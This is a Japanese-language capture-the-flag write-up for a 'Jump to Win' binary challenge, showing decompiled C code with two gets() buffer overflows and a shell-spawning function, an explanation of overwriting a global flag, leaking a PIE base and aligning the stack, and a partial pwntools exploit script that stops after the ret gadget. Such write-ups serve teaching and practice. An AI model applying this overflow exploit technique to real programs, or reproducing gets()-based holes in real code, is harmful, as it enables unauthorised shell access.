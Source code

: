     {
      flag = 0;
      puts(" == Jump to Win == ");
      puts(" == Your username: ");
      gets(username);
      if (flag == 0) {
        puts(" == You missed the jump == ");
      }
      else {
        jump();
      }
      return 0;
    }
    ```
    ```cpp
    void jump(void)
    {
      char local_28 [32];
    
      if (flag == 0x4155) {
        puts(" == The jump was successful == ");
        printf(" == Vuln address: %p\n",vuln);
        puts(" == Your password so we can advance: ");
        gets(local_28);
      }
      else {
        printf("Close but the jump is not far enough!");
      }
      return;
    }
    ```
    ```cpp
    void vuln(void)

    {
      puts(" == You got it! == ");
      system("/bin/sh");
      return;
    }
    ```

グローバル変数 `username` の入力に BOF があって `flag` が書き換えられて、`flag` を 0x4155 にできたらさらに `jump` の中にも BOF があります。
`vuln` のアドレスを貰えているので、あとはリターンアドレスを書き換えて `vuln` に飛ばすとシェルが開けます。

なお、64bit なので Stack Align の関係で `ret;` を挟まないといけないんですが、PIE が有効なので貰った `vuln` のアドレスからベースアドレスを計算する必要があります。

```py
from pwn import *

LOCAL=True
if LOCAL:
    p=process("./vuln")
else:
    p=remote("ctf-metared-2021.ua.pt",27159)

elf=ELF("./vuln")
payload=b"A"*64+p32(0x4155)
p.sendline(payload)

p.recvuntil("Vuln address: ")
base_addr=int(p.recvline(),16)-elf.symbols['vuln']
print(hex(base_addr))

payload=b"A"*40
payload+=p64(base_addr+0x0000101a) # ret;
```
